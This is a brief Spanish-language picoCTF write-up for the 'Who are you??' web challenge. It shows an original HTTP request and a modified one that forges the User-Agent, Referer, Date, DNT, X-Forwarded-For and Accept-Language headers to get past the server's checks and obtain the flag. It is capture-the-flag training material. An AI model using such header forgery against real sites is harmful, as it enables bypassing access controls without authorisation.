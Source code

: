 # Retos picoCTF

# Level Who are you??
## Objetivo
Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:34588/
cd 
## Solucion
Para poder solucionar este reto, hay que cambiar el header que se envia a la pagina para que nos de la bandera.

El header original:
GET / HTTP/1.1
Host: mercury.picoctf.net:34588
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1|

El header modificado:
GET / HTTP/1.1
Host: mercury.picoctf.net:34588
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://mercury.picoctf.net:34588
Date: 18 Oct 2018
DNT: true
X-Forwarded-For: 103.103.84.25
Accept-Language: sv
Upgrade-Insecure-Requests: 1



## Referencias


